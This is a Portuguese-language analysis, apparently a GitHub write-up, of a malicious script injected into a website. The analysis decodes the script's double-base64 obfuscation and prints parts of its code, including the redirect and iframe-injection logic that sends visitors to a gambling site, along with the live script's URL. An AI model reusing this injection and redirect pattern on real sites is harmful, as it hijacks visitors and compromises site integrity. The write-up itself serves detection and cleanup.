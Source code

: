 este código parece ser uma combinação de JavaScript e código obfuscado que executa várias ações em uma página da web. No entanto, ele parece estar envolvido em atividades potencialmente maliciosas ou ações que poderiam prejudicar a segurança e a integridade de um site ou a experiência do usuário. Aqui está uma explicação do código:

Script de Rastreamento de Análise:
A parte inicial do código inclui scripts para dois serviços de rastreamento diferentes: Baidu Analytics e Google Analytics (por meio do Google Tag Manager). Esses scripts são usados para rastrear as interações e o comportamento dos usuários no site.

Decodificação de Dados:
O código contém uma função personalizada chamada mydecx que parece ser responsável por decodificar dados obfuscados. Parece estar usando a decodificação base64 com algumas operações adicionais. No entanto, a natureza exata dos dados sendo decodificados não está clara neste trecho.

Manipulação de URLs:
O código manipula URLs (url_pc_jpx, url_m_jpx, url_pc_frmex, url_m_frmex) usando a função mydecx. As URLs decodificadas são atribuídas de volta às mesmas variáveis.

Análise de Cliente e Referenciador:
O código define uma matriz customerx contendo informações do cliente, incluindo domínios de referência e valores associados. O código então verifica o domínio de referência da sessão do usuário e o compara com os valores na matriz customerx. As variáveis mypcx e mywapx são definidas com base no resultado da correspondência.

Detecção de Dispositivo Móvel:
A função isMobilex tenta detectar se o usuário está navegando no site a partir de um dispositivo móvel. Ela compara o agente do usuário com um conjunto de palavras-chave conhecidas de dispositivos móveis.

Redirecionamento de URL e Injeção de Iframe:
Com base na análise do cliente e na detecção de dispositivo móvel, o código redireciona o usuário para diferentes URLs (url_m_jpx ou url_pc_jpx) ou injeta um iframe (myframex) com uma URL fornecida (p_url). As URLs usadas nessas operações são as URLs manipuladas anteriormente.

Manipulação do DOM e Ocultação:
O código contém uma tentativa de manipular o DOM e ocultar certos elementos na página, incluindo a definição de intervalos para executar essa ação repetidamente.

Comportamento Malicioso ou Suspeito:
A obfuscação do código, seu uso de redirecionamentos e iframes, e suas tentativas de ocultar elementos na página são todos indícios de um comportamento potencialmente malicioso ou suspeito.

Dada a natureza deste código e sua capacidade de prejudicar usuários ou sites, é recomendável revisar e analisar cuidadosamente qualquer código que você esteja considerando adicionar ao seu site. Se você encontrar um código como este em seu site, é aconselhável removê-lo e realizar uma revisão de segurança para garantir que seu site e os dados de seus usuários estejam protegidos.

Aqui esta a requesição que fiz pelo burp suite
![Alt text](image.png)

Obeserve que ele seta o como 404 o titulo, porem a solicitação retorno 200, dentro do corpo da resposta tem cereja do bolo que é script 

link acesso o codigo https://js.eventbr.xyz/vip/crazy.js

vamos tentar obeter algumas informação para entender melhor
url_pc_jpx="YUhSMGNITTZMeTkzZDNjdWQycGlaWFF1WTJ4MVlpOXBibVJsZUQ5aFptWnBiR2xoZEdWRGIyUmxQWFpwY0RnNE9BPT0=";
Observe pela imagem que ele foi criptografado em base64 2 vez para tentar ofuscar. 
![Alt text](image-1.png)

<h1>Parte 1: Integração de rastreamento e análise</h1>
javascript
Copy code
var _hmt = _hmt || [];
(function() {
  var hm = document.createElement("script");
  hm.src = "https://hm.baidu.com/hm.js?e1a5534ee695ed6a20c37e0a3a45fba0";
  var s = document.getElementsByTagName("script")[0]; 
  s.parentNode.insertBefore(hm, s);
})();

document.writeln("<script async src=\"https://www.googletagmanager.com/gtag/js?id=G-2V8N85G2ZE\"></script>");
document.writeln("<script>");
document.writeln("  window.dataLayer = window.dataLayer || [];");
document.writeln("  function gtag(){dataLayer.push(arguments);}");
document.writeln("  gtag('js', new Date());");
document.writeln("");
document.writeln("  gtag('config', 'G-2V8N85G2ZE');");
document.writeln("</script>");
Essa parte do código tenta integrar o rastreamento e análise do site usando dois serviços diferentes: Baidu Analytics (_hmt) e Google Analytics (gtag). Isso envolve a inclusão de scripts externos que coletam informações sobre os visitantes do site, como suas atividades e comportamentos.

<h1>Parte 2: Manipulação de URLs e redirecionamento</h1>
As próximas seções do código manipulam URLs e redirecionam os usuários com base em certas condições. O código parece estar tentando redirecionar os usuários para determinados sites:

javascript
Copy code
url_pc_jpx = "https://www.wjbet.club/index?affiliateCode=vip888";
url_m_jpx = "https://www.wjbet.club/index?affiliateCode=vip888";
url_pc_jpx = mydecx(mydecx(url_pc_jpx));
url_m_jpx = mydecx(mydecx(url_m_jpx));

url_pc_frmex = "https://www.wjbet.club/index?affiliateCode=vip888";
url_m_frmex = "https://www.wjbet.club/index?affiliateCode=vip888";
url_pc_frmex = mydecx(mydecx(url_pc_frmex));
url_m_frmex = mydecx(mydecx(url_m_frmex));

// ...

if (isMobilex() !== false && mywapx !== 0) {
  if (mywapx == 1) {
    window.location.href = url_m_jpx;
  } else {
    myframex(url_m_frmex);
  }
} else if (isMobilex() === false && mypcx !== 0) {
  if (mypcx == 1) {
    window.location.href = url_pc_jpx;
  } else {
    myframex(url_pc_frmex);
  }
}#   H a c k t a g g o v . b r 
 
 
